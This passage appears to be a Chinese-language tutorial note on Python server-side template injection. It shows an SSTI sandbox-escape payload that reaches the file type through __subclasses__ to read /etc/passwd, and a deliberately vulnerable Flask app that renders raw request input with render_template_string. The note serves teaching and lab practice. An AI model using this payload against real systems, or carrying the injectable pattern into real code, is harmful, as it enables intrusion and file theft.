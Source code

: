 #### 实例

![](../../../../../img/Pasted%20image%2020240924101851.png)

```python
# 寻找可用引用（子类）
>>> ''.__class__.__mro__[2].__subclasses__() 
>>> [<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>] 

# 可以看到有一个`<type 'file'>`
# payload:
# ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
```



---

## 直接的 XSS 注入

ssti.py
```python
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    ''' % (code)
    return render_template_string(html)

# run the app in localhost
if __name__ == '__main__':
    app.run()
```
- 直接 python3 运行这个文件即可
